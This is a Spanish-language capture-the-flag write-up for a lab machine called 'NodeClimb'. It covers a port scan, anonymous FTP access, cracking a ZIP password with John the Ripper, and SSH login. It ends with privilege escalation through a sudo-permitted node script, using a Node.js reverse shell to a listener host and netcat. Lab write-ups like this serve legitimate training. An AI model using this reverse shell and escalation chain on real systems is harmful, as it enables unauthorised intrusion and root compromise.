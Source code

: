 ![[Pentesting/Writeups/Images/NodeClimb/1.png]]

## Conectividad con la máquina objetivo

Vemos que al desplegar la máquina nos da una IP, así que hacemos un ping y comprobamos la conectividad.

![[Pentesting/Writeups/Images/NodeClimb/3.png]]

Hacemos ping y vemos que tenemos conectividad

![[Pentesting/Writeups/Images/NodeClimb/4.png]]

## Descubrimiento de Puertos y Servicios

Lanzo un escaneo con `nmap` y compruebo lo siguiente:

`nmap -p- -sS -sC -sV -O 172.17.0.2 -oN puertos.txt`

![[Pentesting/Writeups/Images/NodeClimb/2.png]]

### Puertos y Servicios

| Puerto | Servicio | Versión       |
| ------ | -------- | ------------- |
| 21     | FTP      | Vsftpd 3.0.3  |
| 22     | SSH      | OpenSSH 9.2p1 |

## Fase de Explotación

Vemos que podemos entrar como **anonymous** en FTP y que hay un archivo ZIP. Nos los traemos a nuestra máquina con el comando get.

![[Pentesting/Writeups/Images/NodeClimb/5.png]]

Lo abrimos y a simple vista veo que hay un .txt con la clave para entrar por SSH.

![[Pentesting/Writeups/Images/NodeClimb/6.png]]

Si lo intentamos extraer nos pide una clave, pero no la sabemos.

Podemos convertir el fichero a un hash para luego con john hacer fuerza bruta para sacar la clave del .zip.

`zip2jhon secretitopicaron.zip > secretitohash`

![[Pentesting/Writeups/Images/NodeClimb/7.png]]

Ahora con `jhon` intentamos sacar la clave.

`john --format=PKZIP -w /usr/share/wordlist/rockyou.txt secretitohash`

![[Pentesting/Writeups/Images/NodeClimb/8.png]]

Y vemos que la clave es *password1*

Lo intentamos extraer y vemos que si nos deja, abrimos el password.txt y sale esto.

![[Pentesting/Writeups/Images/NodeClimb/9.png]]

Por lo que entramos por SSH y vemos que podemos ejecutar como cualquier usuario el binario node pero solo el script que hay en /home/mario.

![[Pentesting/Writeups/Images/NodeClimb/10.png]]

Si abrimos el script, vemos que está vacido. Podemos meter una reverse shell y ejecutarla como root para conseguir privilegios.

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "192.168.1.246", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

En la máquina atacante, en nuestro kali, ejecutamos primero:

`nc -nlvp 443`

Y luego ejecutamos el script

Si se queda colgado y en nuestra máquina conseguimos la bash lo hemos hecho bien.

Ahora ejecutamos `whoami` y vemos que somos root.

![[Pentesting/Writeups/Images/NodeClimb/11.png]]

Ya somos root!!

